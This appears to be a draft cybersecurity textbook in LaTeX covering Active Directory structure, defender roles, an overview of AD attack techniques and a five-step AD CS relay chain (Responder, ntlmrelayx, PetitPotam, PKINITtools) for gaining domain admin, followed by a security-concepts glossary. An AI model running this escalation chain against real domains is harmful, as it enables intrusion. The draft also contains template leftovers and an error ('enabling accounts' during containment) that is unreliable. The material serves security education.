Domain, or Active Directory domain, is typically a collection of all objects within an AD DS network. This is grouped in a tree structure. AD domains are identified by a DNS name that is usually the same as the organization’s public domain name, subdomain, or any alternate version. 
Tree – is a collection of domains within AD DS. The main reason why it is called a tree is because each domain has exactly one parent, which leads to a hierarchical tree structure. A domain tree typically starts from a single parent or root and then branches out into different child domains.
Forest – this is considered the highest level of organization within AD. It also acts as the centralized mechanism for managing and controlling authentication and authorization across the organization. 
Object - refers to the single element contained in an AD such as a user, group, application, and devices. It may also be defined as resources or security principals.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adcomp.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

What are AD Objects?

As discussed above, Active Directory is composed of four major components and one of which is an Object. Listed below are the different types of objects that you need to be familiar with in order to administer Active Directory successfully:

User
Contact
Computer
Shared folder
Group
Organization Unit
Domain
Domain Controller
Site
Now that you know the different types of objects in Active Directory, let’s get into the details of each object.

User - This type of object represents a real user who is an active part of an organization’s AD network. A user object can be an employee of the organization such as IT Admins, Human Resources managers, Directors, and Executives who may usually have an elevated permission compared to other users.
Contact – similar to a user object, a contact in AD represents a real contact person who is not part of the organization. They may have a significant contribution or role in the organization such as partners, vendors, or agencies that have specific tasks or roles in the organization.
Group – this type of object can contain other AD objects such as other groups, users, as well as computers and printers. The group object serves as a container type of object in Active Directory.
Organizational Unit (OU) - Like group objects, organizational unit objects can also contain other AD objects.
Domain – this is a structural component of the active directory. Like group and OU objects, domains can contain other AD objects. Each domain in an AD has its own database and its own set of defined policies that are applied to all AD objects within it.
Domain Controller – this object is responsible for maintaining the policies, authentication to all AD users and provides roles that other Domain Controllers in a domain should be performing.
Site - This object in AD is overall in charge of managing and facilitating the process of replications.
Built-in - These objects contain local groups that are predefined during the creation of the active directory.
Apart from understanding the different types of AD objects, as a system administrator, it is also important that you understand the two main categories of AD objects, leaf and container AD objects.

Container AD Objects - These are objects that can contain other AD objects within them. A good example of this object is Organization Unit and Groups.
Leaf AD Objects - These are objects that cannot contain other objects within them such as User, Computer, and Printer.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adcomp2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Now that you know the components of an AD, let us also get into the details of a domain. As discussed above, a domain serves as the structural component of your organization. It serves as the fundamental unit of AD that typically shares common administration, security, and replication requirements. Active directory can have multiple subdomains. This is how a system administrator will design the AD if the organization has several regions of business or branches. 

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{aduc1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Subdomains on the other hand allows a logical partitioning of Active Directory. This fits perfectly if the organization has several regions of their business. You can divide active directory into smaller directories to allocate rights delegation to the subdomains. With this setup you will be able to keep everything organized from an administrative standpoint.

Your main goal as the system administrator is to build up the structure for your organization to support delegation of permission. This is also to take advantage of all customizations of policies without applying it to every single user or object in your active directory. Speaking of building up the structure, managing a large-scale organization would require some users to be able to access networks or resources from one location to another without issuing different credentials. For example, a company director should be able to login to a computer from the headquarters and to another computer located offshore. This is where Domain Trust comes in.

An Active Directory trust (AD trust) is a way of connecting two different or distinct AD domains or forests to allow users in one domain to be authenticated against resources from the other domain. This serves as a communication bridge that establishes the connection of one domain and another domain in your organization’s AD network. With this connection, resources between two different domains can be shared, and therefore provide seamless access to the users. 

Another term you would hear a lot is Domain Controller. It is a windows server that manages network, identity, security, and policies and hosts the Active Directory database. It effectively acts as a gatekeeper for the authentication and authorization of users into your organization’s IT resources within the domain. Therefore, it is very important to secure the domain controller. It serves as the key door in your organization’s IT resources. If you want to learn how to start creating your own active directory domain, click here. 

As a system administrator, you may also encounter some unexpected failures in managing the active directory. Some or maybe the whole network or system may fail to access company resources because of this. There are also instances that your network administrator depends on Active Directory to assign IP addresses to all of your company devices via DHCP server or DNS server which are both being managed under your domain controller. As critical as this set up, it is important to have multiple domain controllers for replication and redundancy. 

AD allows the possibility of maintaining a writable copy of its own domain partition. To put it simply, it replicates automatically whatever changes are made to your domain controller to your other domain controllers. This process is called multimaster replication. This allows most of the operations to be processed reliably by multiple domain controllers, and so it provides high levels of redundancy, availability, and accessibility in your Active Directory. With all of these capabilities, you have to apply some exceptions to some AD operations that are highly sensitive, or simply restrict them to a specific domain controller. This is where the Flexible Single-Master Operator (FSMO) roles. 

Before we discuss these five roles, let us give you an overview of how FSMO roles work. In every forest, there is a single Schema Master and a single Domain Naming Master. In each domain, there is one Infrastructure Master, one RID Master, and one PDC Emulator; however, at any given time, there can be only one DC performing the functions of each role. Therefore, a single DC could run all five FSMO roles; however, in a single-domain environment, there can be no more than five servers that run the roles.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adforest.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

An Active Directory has five FSMO roles:

Schema Master – Schema Master is an enterprise-level FSMO role; There is only one Schema Master in an Active Directory forest. The Schema Master role owner is the only domain controller in an Active Directory forest that contains a writable schema partition. As a result, the DC that owns the FSMO Master Schema role must be available to modify its forest schema. Examples of actions that update the schema include raising the functional level of the forest and upgrading the operating system of a DC to a higher version than currently exists in the forest. 
Domain Naming Master – Domain Naming Master is an enterprise-level role; there is only one Domain Naming Master in an Active Directory forest. The Domain Naming Master role owner is the only domain controller in an Active Directory forest that is capable of adding new domains and application partitions to the forest. Its availability is also necessary to remove existing domains and application partitions from the forest. The Domain Naming Master role has little overhead, and its loss can be expected to result in little to no operational impact, since the addition and removal of domains and partitions are performed infrequently and are rarely time-critical operations. Consequently, the Domain Naming Master role should need to be seized only when the DC that owns the role cannot be brought back online.
Infrastructure Master – Infrastructure Master is a domain-level role; there is an Infrastructure Master in each domain in an Active Directory forest. The Infrastructure Master synchronizes objects with the global catalog servers. The Infrastructure Master will compare its data to the data of a global catalog server and receive any data not found in its database from the global catalog server. If all DCs in a domain are also global catalog servers, then all DCs will have up-to-date information (assuming that replication is functional). In such a scenario, the location of the Infrastructure Master role is irrelevant, since it does not have any real work to do.
Relative ID (RID) Master – Relative Identifier Master (RID Master) is a domain-level role; there is one RID Master in each domain in an Active Directory forest. The RID Master role owner is responsible for allocating active and standby Relative Identifier (RID) pools to DCs in its domain. RID pools consist of a unique contiguous range of RIDs, which are used during the creation of the object to generate the unique Security Identifier (SID) of the new object. The RID Master is also responsible for moving objects from one domain to another within a forest.
PDC Emulator – The Primary Domain Controller Emulator (PDC Emulator or PDCE) is a domain-level role; there is one PDCE in each domain in an Active Directory forest. The PDC Emulator controls the authentication within a domain, whether Kerberos v5 or NTLM. When a user changes their password, the change is processed by the PDC Emulator.
What are the duties of an Active Directory administrator?

An Active Directory administrator plays a critical role not just in the IT department but also in the entire organization. You are in charge of one of the most precious resources of any company, data. Some of your primary duties will include:

Creating and maintaining user accounts, schema, and groups
Controlling the domain and ensuring overall system security
Establishing and implementing group policies
Offering technical assistance to users
Ensuring compliance to policies and regulations
Helping with disaster recovery
Performing security audits

\section{Key Roles for Defenders in Active Directory}
A defender's security stance, or role, in Active Directory is responsible for protecting the AD environment from cyberattacks through proactive measures, continuous monitoring, threat detection, and incident response. Because AD is a primary target for attackers seeking credentials and access to corporate resources, a defender's role is a cornerstone of an organization's entire cybersecurity stance.

An Active Directory defender has key defensive responsibilities, such as (but not limited to):
\subsubsection{Preventative Measures and Hardening}
\textbf{Implement the Principle of Least Privilege (PoLP):}
Minimize the number of privileged accounts, including Domain Admins, and use Role-Based Access Control (RBAC) to grant users only the permissions necessary for their job roles and functions.

\subsubsection{Enforce Strong Password Policies and MFA:}
Mandate the use of long, complex passwords or passphrases and enforce MFA for all privileged accounts to prevent credential theft and brute-force attacks.

\subsubsectionSecure Administrative Access:}
Secure administrative access: Require administrators to use separate, nonprivileged accounts for daily tasks and access AD only from dedicated, hardened workstations (SAWs).

Protect Domain Controllers (DCs): Isolate DCs with network segmentation, restrict physical access, enforce strong firewalls, and periodically patch and update their operating systems.
Manage accounts and groups: Regularly audit and remove inactive or unused accounts that could serve as backdoors for attackers. Properly manage service accounts, using Group Managed Service Accounts (gMSA) when possible. 
Detection and monitoring
Continuous monitoring and auditing: Use Security Information and Event Management (SIEM) tools to centrally collect and analyze AD security logs in real-time. This helps detect suspicious activities, such as
Spikes in failed login attempts.
Changes in highly privileged security groups.
Unauthorized changes to Group Policy Objects (GPOs).
Leverage threat detection tools: Employ solutions that use advanced analytics and behavioral monitoring to identify more sophisticated attack techniques that may not be logged, such as DCShadow and Kerberoasting. 
Incident Response and Recovery Threat Containment: In the event of a breach, quickly contain the attack by isolating compromised systems, enabling accounts, and revocation of unauthorized access rights.
Forensics and investigation: Conduct a thorough investigation to determine how the breach occurred, what assets were affected, and how the attacker moved through the network. Detailed archived logs are crucial for this process.
Recovery and remediation: Restore AD from clean, offline backups to ensure the integrity of the environment. Remediate any vulnerabilities discovered to prevent a recurrence of the attack.
Develop a disaster recovery plan: Establish and test a formal AD recovery plan that includes procedures for backup, recovery, and communication during a security incident. 
Who performs these defensive tasks?
While responsibilities can vary by organization, defensive security tasks for Active Directory are often a joint effort between several teams, including
IT Security: Typically, a security policy is set with "guardrails," defining standards for everything from password length to MFA requirements.
IT Administrators: Responsible for the daily implementation of security policies, such as creating user accounts and managing group memberships, while operating within the rules set by the security team.
Security Operations Center (SOC): A dedicated team focused on continuous monitoring, incident detection, and the initial stages of incident response.
Identity and Access Management (IAM): Manages identity and access policies, ensuring that security groups and access controls adhere to the Principle of Least Privilege.

\subsection{The Role of the Attacker (Offensive Security) in Active Directory}
In the context of Active Directory (AD), the offensive security role involves acting as a simulated adversary, or "red teamer," to proactively identify vulnerabilities and misconfigurations that a malicious attacker could exploit. Using the same tools, tactics, and techniques as real hackers, offensive security professionals help organizations strengthen their defenses before a breach occurs. 
Offensive tactics against Active Directory
Offensive security professionals conduct exercises to exploit weaknesses in AD and escalate privileges. The typical attack lifecycle against an AD environment includes:
1. Reconnaissance
Attackers begin by gathering information about the target network and its AD environment to find a foothold.
Enumerating Users and Groups Attackers query AD for user, group, and computer information, looking for privileged accounts and misconfigured permissions.
Scanning ports: Tools such as Nmap are used to identify running services like Kerberos (port 88) and LDAP (port 389), which indicate a domain controller.
Trust Enumeration: Attackers map trust relationships between different domains or forests, as a compromised domain could allow access to a more privileged one.
Using Reconnaissance Tools: Tools such as PowerView and BloodHound are commonly used to gather information and visually map potential attack paths. 
2. Initial access and credential theft
Once initial access is gained, the focus shifts to stealing credentials to move laterally and escalate privileges.
Password spraying: This technique tries some common passwords against many different user accounts to avoid triggering account lockouts.
Kerberoasting: Attackers target Service Principal Names (SPNs) to request service tickets, which are then cracked offline to find the associated service account's plaintext password.
LLMNR/NBT-NS poisoning: This man-in-the-middle (MITM) attack intercepts local network traffic to capture NTLM hashes, which can be cracked offline.
Pass-the-Hash/Ticket: After obtaining a user's password hash or Kerberos ticket, an attacker can reuse it to authenticate to other services or systems without knowing the plaintext password. 
3. Privilege escalation
With stolen credentials, attackers try to gain a higher level of access, often aiming for Domain Administrator privileges.
Exploiting Misconfigurations: AD environments are complex and subtle misconfigurations can lead to significant vulnerabilities. For example, a service account with domain administrator privileges is a high-value target.
Abusing ACLs and Delegation: Attackers analyze Access Control Lists (ACLs) to find overly permissive settings that allow a standard user to perform privileged actions, such as resetting an admin's password.
Golden Ticket attacks: If an attacker gains the hash of the KRBTGT account, they can forge Kerberos tickets to gain permanent, domain-wide administrative access.
Extracting NTDS.dit: The ntds.dit file contains all AD password hashes. If an attacker can extract this file from a domain controller, they can attempt to crack every user's password offline. 
4. Persistence and defense evasion
Once access is escalated, the attacker's goal is to maintain a foothold and avoid detection.
Creating backdoors: Attackers can create hidden backdoors, such as new admin accounts or malicious registry keys, to regain access later.
Maintaining persistence: Techniques like WMI Event Subscriptions can be used to execute malicious code with elevated privileges, ensuring the attacker's, 

access survives reboots and other changes.
Abusing trusts: Attackers can manipulate trust relationships to pivot between different domains or forests, extending the scope of the attack. 
Why this role is important for security
By simulating these attacks, offensive security professionals provide critical insights that help defensive "blue teams" prepare for and respond to real-world threats. The intelligence gathered from these exercises allows organizations to:
Validate security controls: Prove whether firewalls, EDR, and other security measures actually work.
Test incident response: Evaluate the security team's ability to detect, contain, and remediate a breach.
Reduce risk proactively: Identify and patch vulnerabilities before a malicious actor can exploit them.
Meet compliance standards: Demonstrate security readiness to satisfy industry regulations and compliance requirements and/or mandates.

\section{Active Directory Certificate Services (AD CS)}
Active Directory Certificate Services (AD CS) is Microsoft's PKI implementation that integrates with existing Active Directory forests;

AD CS is not installed by default; is responsible for:
User Authentication
HTTPS Certificates
SSL VPN Certificates
Digital Signatures
Code signing

\section{AD CS \& PKI}
The Public Key Cryptography for Initial Authentication in Kerberos (PKINIT) protocol enables the use of public key cryptography in the initial authentication exchange of the Kerberos authentication protocol.

Instead of sharing a secret key between the client and KDC, the client possesses a public key pair that is signed by a trusted Certification Authority (CA).

When PKINIT is enabled, it is possible to:
Perform Kerberos authentication using X.509 certificates and obtain a TGT
Create an Schannel Security Context using X.509 certificates for LDAP over SSL (LDAPS)
Recover NTLM from TGT requested using X.509 certificates (UnPAC-the-Hash)

\section{Authenticating with Certificates When PKINIT is Not Supported}
How to obtain domain admin privileges during internal assessments. 

Here is what usually happens when we conduct an internal penetration test on an environment that has not been hardened against AD CS attacks:

1. Obtain a domain account (e.g., through Responder or mitm6)
2. Find the AD CS web enrollment service (e.g., with a valid account and Certify / Certipy; or in black box through manual search, or \texttt{ntlmrelayx.py --dump-adcs} option)
3. Force a Domain Controller to connect back to our workstation (e.g., through \texttt{printerbug.py,} or PetitPotam
4. Relay this authentication to the AD CS Web enrollment service with \texttt{ntlmrelayx.py} (attack ESC8 to obtain a certificate for the targeted DC)
5. Use \texttt{PKINITtools} to get a TGT for the target DC (or recover its NT hash), allowing us to take over the domain.

\section{Abusing Active Directory Certification Services (AD CS)}
Active Directory Certificate Services has an enormous attack surface.
In June 2021, Will Schroeder and Lee Christensen from SpectreOps published a whitepaper titled \textit{"Certified Pre-Owned."} that demonstrates how any adversary can utilize and abuse the AD CS environment to elevate privileges, gain a toehold and establish persistence with the breached network.
\begin{quote}
    Of note, nearly every environment with AD CS that we've examined for domain escalation misconfigurations has been vulnerable. It is hard for us to overstate what a big deal these issues are." - SpectreOps Team
    \end{quote}
    
\textbf{User Credential Theft (1 year +)}
Stealing existing user certificates capable of domain authentication or actively requesting a new certificate from a user's context.
\textit{Survives user password changes and can be done without elevation or touching LSASS.}

\textbf{Machine Persistence (1 year +}
Stealing existing system certificates capable of domain authentication or actively requestion a new certificate from a systems'c ontext, combined with resource-based constrained delegation (or just S4U2Self).
\textit{Survives machine password changes and can be done without touching LSASS.}

\textbf{Domain Escalation Paths}
Misconfigured certificate templates that allow Subject Alternative Name (SAN) specification, vulnerable Certificate Request Agent templates; vulnerable template ACLs, the \texttt{EDITF_ATTRIBUTESUBJECTALTNAME2 flag being set; vulnerable CA permissions, or NTLM relay to web enrollment endpoints.

\textbf{Domain Persistence}
Stealing the Certificate Authority private key and forging Golden Certificates.

\subsection{Audit Certification Services}
To configure Certificate Services audit, you must enable "Audit Configuration Services" subcategory of advanced audit policy, and at the level of the CA server, additionally determine which event categories are to be logged.

It is recommended to select all events to audit.

Active Directory was first released with Windows Server 2000. Its primary function is to provide authentication and authorization to users on the network.

Authentication is the process where Active Directory verifies a user’s credentials (username and password). The user’s credentials are stored in the Active Directory database.
Authorization is the process that grants or denies a user to do something such as edit a file or access an application.
Since its release, Microsoft has added additional services to Active Directory, more on this in lesson 6. The topic of Active Directory can be very complex as there are many services and components that make it work. Just remember its core function is to authenticate and authorize users to network resources.

Even though there has been a big push to move everything to the cloud, Active Directory is still used by most medium and large organizations. A lot of organizations use Office 365 and cloud services and operate in a hybrid mode. This means the local Active Directory is synced with the cloud to provide seamless authentication to Office 365 resources such as email.

To better understand how Active Directory works let’s look at some examples. These examples provide a high-level overview of how Active Directory works.

Example 1 – Authenticate Users
Jim was recently hired as an accountant for Active Directory Pro. The IT administrator creates an account for Jim in Active Directory, the account is unique to Jim and contains details such as first name, last name, office, phone number, etc. Jim is provided with a username and password so he can log into the company’s network.

Jim logs into his laptop with the provided username and password.
The logon request goes to the Active Directory server to verify Jim’s username and password.
Active Directory looks up Jim’s account and verifies the username and password. The account has been verified.
Jim is now logged into his laptop and is authenticated to the domain.
authenticate active directory user
Example 2 – Authorize User (grant or deny permissions)
In this example, the Active Directory server will authorize access to network resources.

Jim logs into his computer using his username and password and wants to access his email, a contract file, and the accounting database server.
These network resources check with Active Directory to see if Jim’s account is authorized for access.
Active Directory verifies Jim’s account is authorized for access.
Jim’s account is granted access. Jim can now check email, modify the contract file and work on the database server.
authorize active directory user
Example 3 – Authorize and Deny User Access
In this last example, we will look at another user that has mixed access (allow and deny permissions.

Pam logs into the network with her username and password. She tries to access the same resources as Jim (email, a contract file, and a database server. )
These network resources check with Active Directory to see if Pam’s account is authorized for access.
Active Directory verifies Pam’s account (Authentication). AD also checks what resources Pam’s account has access to (Authorization).
Pam can now access email and the contract file but does not have permission to access the accounting database server.
deny user permissions
In all of the above examples, Active Directory works by providing authentication and authorization to users and network resources. No matter what technical jargon you hear, that is the core function of Active Directory.

It is important to note that these network resources must be configured to use Active Directory. The resources are typically joined to the Active Directory server (but not all systems require this). There is a lot of configuration and planning that goes into configuring an Active Directory server. Organizations typically have dedicated professionals to implement and manage these systems.

In the next lesson, I’ll go over some of the core components of an Active Directory server.




%%%%%%%%%%%%%%%%%%%%% appendix.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample appendix
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%

\appendix
\motto{All's well that ends well}
\chapter{Chapter Heading}
\label{introA} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

Use the template \emph{appendix.tex} together with the Springer document class SVMono (monograph-type books) or SVMult (edited books) to style appendix of your book.


\section{Section Heading}
\label{sec:A1}
% Always give a unique label
% and use \ref{<label>} for cross-references
% and \cite{<label>} for bibliographic references
% use \sectionmark{}
% to alter or adjust the section heading in the running head
\include{mainmatter/annotatedtoc}

\backmatter
%%%%%%%%%%%%%%%%%%%%%%acronym.tex%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% sample list of acronyms
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer %%%%%%%%%%%%%%%%%%%%%%%%%%

\Extrachap{Quick Guide}


Use this Quick Guide as a reference to quickly look up enhanced definitions and pointers for easy reference rather than complex description. A study guide companion, if you will.emplate \emph{glossary.tex} together with the Springer document class SVMono (monograph-type books) or SVMult (edited books) to style your glossary\index{glossary} in the Springer layout.

\section{General Security Concepts}
This Domain covers essential security concepts, security considerations in change management processes, and cybersecurity-related fundamentals.

\subsection{Security Controls}
\runinhead{Security Controls: Measures used to protect systems, assets, and information from threats. They are broadly categorized into four main types: technical, managerial, operational, and physical. Each category addresses security from a different perspective, working together to provide comprehensive protection.}
 
\subsection{Technical Controls}
These are security measures implemented using technology. They include hardware, software, and firmware components designed to protect information systems and networks.

\textbf{Examples:} Firewalls, Intrusion Detection Systems (IDS), antivirus software, encryption, access control systems, and security protocols.

\subsection{Managerial Controls}
These controls focus on the administrative and management aspects of security. They involve policies, procedures, and guidelines that guide security practices within an organization.

\textbf{Examples:} Risk assessments, security awareness training, security policies, change management procedures, and incident response planning.

\subsubsection{Operational Controls}
These are the daily practices and procedures that people use to implement and maintain security. They often involve human interaction with systems and processes.

\textbf{Examples:} Security guard patrols. access control procedures (e.g. badge checks), security awareness training for employees, and incident reporting procedures.

\subsubsection{Physical Controls}
These are tangible measures used to protect physical assets, infrastructure, and personnel from unauthorized access, theft, or damage.

\textbf{Examples:} Locks, fences, security cameras, badge readers, and perimeter security measures such as fences, gates, and bollards.

In essence: \textbf{Technical controls} use technology to protect systems, \textbf{managerial controls} guide the overall strategy, \textbf{operational controls} put those strategies into practice, and \textbf{physical controls} protect the physical environment from threat and harm.

\subsection{Security Control Types}

\textbf{Preventive:} These controls aim to prevent an incident from occurring. Examples include access controls (such as passwords and firewalls), encryption, and security awareness training.

Deterrent: These controls discourage attackers by making the attack less appealing or more difficult to penetrate. Examples include security cameras, motion detectors, warning signs, and policies that increase the perceived risk of being caught.

\textbf{Detective:} These controls identify incidents as they occur or after they have occurred. Examples include Intrusion Detection Systems (IDS), log monitoring, and security audits and assessments.

\textbf{Corrective:} These controls restore the systems to their previous operating states after an incident has occurred. Examples include system backups, disaster recovery plans, and incident response procedures.

\textbf{Compensating:} These controls are used when primary controls are not feasible or insufficient. For example, if a system does not have strong access controls, one might implement more frequent security audits as a compensating control.

\textbf{Directive:} These controls enforce policies and procedures, such as mandatory security training and requiring multifactor authentication.

\runinhead{CIA} Known as the CIA Triad. \textbf{Confidentiality, Integrity, Availability} The CIA triad is a model used in information and cybersecurity to guide policies for protecting data and information. The three core principles work together to ensure that information is protected from unauthorized access, modified only by authorized individuals, and accessible when needed.

\runinhead{AAA} \textbf{Authentication, Authorization, Accounting / Accountability:} AAA is a security framework composed of Authentication, Authorization and Accounting processes. It is a system used to control access to network resources, enforce policies, track usage, and facilitate operational processes. In essence, AAA verifies \textit{who a user is} (authentication, \textit{what they are allowed to do} (authorization), and \textit{how they use} the system (accounting). A breakdown of each component:
\begin{itemize}
    \item \textbf{Authentication:} This process verifies the identity of a user or device that attempts to access a network or an information system. Typically, this involves a username and password, but can also include other authentication methods such as biometrics or security tokens.
    \item \textbf{Authorization:} Once authenticated, authorization determines what the user is allowed to do. Describes the specific resources, services, or commands that a user can access or execute.
    \item \textbf{Accounting:} This process tracks user activity, logging session information such as connection time, bandwidth usage, and resources consumed. This information is used for auditing, assessments and capacity planning.
\end{itemize}

\runinhead{Nonrepudiation} A security concept that ensures the integrity and origin of data, providing proof that a specific action or communication occurred and that the originator cannot deny having sent it or the recipient deny having received it. Essentially, it prevents a party from later denying that they performed an action such as sending a message. Key actions of Nonrepudiation include:
\begin{itemize}
    \item \textbf{Proof of Origin:} Demonstrates who sent a message or initiated an action.
    \item \textbf{Proof of Integrity:} Ensures that the message or data have not been tampered with.
    \item \textbf{Proof of Receipt:} Confirms that the intended message was received by the recipient.
\end{itemize}
How Nonrepudiation is achieved:
\begin{itemize}
    \item \textbf{Digital Signatures:} A cryptographic method that binds a user's identity to a message, acting as a digital fingerprint to prevent denial.
    \item \textbf{Hash Functions:} Used to create a unique digital footprint of data, making any changes easily detectable.
    \item \textbf{Timestamps:} Record when an event occurred, preventing disputes about when something happened (or if it did not).
    \item \textbf{Audit Logs:} Detailed records of system activities, capturing who did what, when, and where, helping with investigations and accountability.
    \item \textbf{Certificate Authority (CA):} Trusted third parties that issue and manage digital certificates and signatures, verifying the identity of users and entities.
    \end{itemize}

\runinhead{Gap Analysis} A gap analysis is a method used to assess the difference between an organization's security posture and its desired, or expected, performance. It helps identify areas where a network security posture may be falling short of its goals and allows the development of strategies to bridge or close those gaps. Essentially, it is a comparison of "where you are" versus "where you want to be." 
Key aspects of a gap analysis include:
\begin{itemize}
    \item \textbf{Identifies the gap:} It pinpoints the discrepancies between the current state and the desired state in various areas, such as performance, resources, processes, or technology.
    \item \textbf{Provides a clear picture:} Helps to understand the current situation by measuring factors such as money and labor and comparing them with the desired target or a baseline.
    \item \textbf{Facilitates improvement:} By understanding the security gaps, organizations can develop action plans to address the shortcomings and move toward their goals.
    \item \textbf{Can be used in various contexts:} Gap analysis can be applied to different areas, including product development, strategy planning, human resources, and more.
\end{itemize}

\runinhead{Zero-Trust} Zero trust is a security framework that operates on the principle of \textit{"never trust, always verify."} It assumes that all users and devices, even those inside the network, are potential threats and require continuous verification and authentication for access.
\textbf{Core Principles:}
\begin{itemize}
    \item \textbf{"Never trust, always verify."} No user, device, or application is trusted by default, even if they are inside the network perimeter.
    \item \textbf{Principle of Least Privilege (PoLP):} Users and devices are granted only the minimum level of access necessary to perform their tasks, limiting potential damage and reducing attack surfaces from breaches.
    \item \textbf{Continuous Verification:} Access is not granted based on one-time authentication. Instead, authentication and authorization are verified continuously and dynamically throughout a session.
\end{itemize}
\textbf{How it Works:}
\begin{itemize}
    \item \textbf{1. Identity Verification:} Every access request is authenticated, and the identity of the user or device is verified before access can be granted.
    \item \textbf{2. Contextual Risk Assessment:} Access is determined based on the context of the request, including user behavior, device posture, and location, using AI and machine learning.
    \item \textbf{3. Policy Enforcement:} Access is granted, denied, or adjusted based on the risk assessment in near-real-time.
    \item \textbf{4. Granular Access Control:} Access is granted based on the Principle of Least Privilege (PoLP) and provides users with the minimum access granted to the resources they need.
    \item \textbf{5. Micro-Segmentation:} Network traffic and applications are segmented into smaller, isolated zones, limiting the scope of a potential breach.
    \item \textbf{Continuous Monitoring (ConMon):} The environment is continuously monitored for anomalies and threats, and security policies are adjusted accordingly.
\end{itemize}

\runinhead{Physical Security} Physical security refers to the measures and practices used to protect people, property, and assets from physical threats such as theft, vandalism, destruction, natural disasters, and unauthorized access. It encompasses a range of strategies and technologies designed to protect physical resources and ensure safety and security. Key aspects of physical security include the following items.
\begin{itemize}
    \item \textbf{Access Control:} Restricting entry to authorized personnel through measures such as locks, keycards, biometric scanners, and security personnel.
    \item \textbf{Perimeter Security:} Establishing physical barriers such as fences, walls, and gates to deter and delay unauthorized access.
    \item \textbf{Surveillance and Monitoring:} Employing CCTV cameras, alarms, and other monitoring systems to detect and respond to potential threats.
    \item \textbf{Physical Barriers:} Using physical structures such as doors, windows, and reinforced walls to protect against intrusion and damage.
    \item \textbf{Security Personnel:} Employing security guards or watchdogs to monitor premises, respond to incidents, and provide a visible deterrent.
    \item \textbf{Environmental Controls:} Implementing measures to mitigate the impact of natural disasters such as floods or fires, such as fire suppression systems and flood barriers.
    \item \textbf{Emergency Preparedness:} Developing and implementing plans to respond to various emergencies, including evacuations and first aid.
\end{itemize}

\runinhead{Deception and Disruption Technology} Deception and disruption technology in cybersecurity involves creating realistic decoys and traps to mislead attackers, allowing organizations to detect and respond to threats early, gather threat intelligence, and disrupt malicious activities. It is a proactive approach that complements traditional security measures by shifting the focus from preventing attacks to detecting and responding to them effectively. A more detailed breakdown is provided below.
\textbf{Deception Technology}
\begin{itemize}
    \item \textbf{Concept:} Involves deploying fake assets using honeypots or honeynets to simulate decoy servers, applications, databases, files, credentials, and more that mimic legitimate ones.
    \item \textbf{Purpose:} To deceive and lure attackers away from critical systems, enticing or luring them to more attractive "targets", making them interact with the decoys instead.
    \item \textbf{Benefit:} Early detection of breaches as attackers interact with decoys, providing information about their tactics, techniques and procedures (TTP).
\end{itemize}
Examples include:
\begin{itemize}
    \item \textbf{Honeypots:} Systems designed to attract and trap attackers.
    \item \textbf{Deceptive files:} Files that appear legitimate but, in fact, contain misleading information or trigger alerts upon access.
    \item \textbf{Deceptive email accounts:} Mimicking real email addresses to identify phishing attempts.
    \item \textbf{Deceptive network infrastructure:} Creating fake networks and servers that attract attackers to infiltrate shifting their focus from legitimate network assets to decoys.
\end{itemize}

\runinhead{Change Management} Change management in security refers to a structured process that organizations use to manage and control modifications to their information systems, policies, and procedures to ensure that they do not negatively affect security processes or procedures. It is a way to handle changes in a controlled and coordinated manner, and minimizes risks associated with unauthorized or poorly planned modifications.
Key aspects of change management in security consist of the following processes defined below.
\begin{itemize}
    \item \textbf{Structured Processes:} It involves a defined process for requesting, evaluating, approving, testing, and documenting changes.
    \item \textbf{Risk Mitigation:} Change management aims to reduce the risk of security breaches, system outages, and other negative consequences that can arise from poorly managed changes.
    \item \textbf{Policy and Procedure Updates:} Changes to security policies and procedures are also managed through this process to ensure they align with organizational needs and security best practices.
    \item \textbf{Business Impact Assessment (BIA):} Organizations assess the potential impacts of proposed changes on their security posture before implementing them.
    \item \textbf{Audible Process:} All changes are tracked and documented, allowing for auditing and accountability.
    \item \textbf{Alignment with Business Needs:} Change management ensures that security changes align with the organizations overall business goals and objectives.
    \item \textbf{Tools and Automation:} Many organizations use automated tools and workflows to streamline the change management process.
\end{itemize}
In essence, change management in security is about ensuring that modifications to an organization's security infrastructure and practices are implemented safely and effectively, minimizing risks while supporting business operations.

\runinhead{Ownership} Parties responsible for organizational changes.

\runinhead{Stakeholders} In a cybersecurity context, stakeholders are individuals or groups who have a vested interest in an organization's cybersecurity practices and are affected by its operations. These stakeholders can be internal, such as employees and management, or external, such as customers, suppliers, and regulatory bodies.

\runinhead{Impact Analysis} Impact analysis in cybersecurity refers to the processes of evaluating the potential consequences of a cybersecurity incident or breach on an organization's operations, finances, reputation, and legal standing. It helps organizations to better understand the potential damage from a cyberattack and prioritize resources for mitigation and recovery procedures.

\runinhead{Backout Plan} A backout plan in cybersecurity is a documented procedure that outlines how to revert to a previous system-state, after making changes or updates, ensuring minimal disruption and data integrity. It is a crucial part of cybersecurity as it provides a safety net to mitigate the risks associated with new deployments and modifications to existing infrastructure.

\runinhead{Maintenance Window} A maintenance window is a pre-scheduled recurring or one time period of time when planned maintenance tasks, such as software updates, security patches, and testing system upgrades, are performed on managed or in-production systems. This practice helps minimize disruptions to users and operations by ensuring maintenance is accomplished during defined, less critical operating times.

\runinhead{Standard Operating Procedure (SOP)}  In cybersecurity, a Standard Operating Procedure (SOP) is a documented, step-by-step guide that outlines the specific actions required to maintain and protect an organization's digital assets and infrastructure. SOPs ensure consistency, efficiency, and compliance in handling security incidents, managing digital assets, and adhering to relevant regulations. They essentially provide a standardized approach to security operations, minimizing the risk of human error and ensuring consistent responses to security threats. Key aspects of a cybersecurity SOP may include, but are not limited to:
\begin{itemize}
    \item \textbf{Incident Response:} SOPs detail the steps for detecting, containing, investigating, and resolving security incidents.
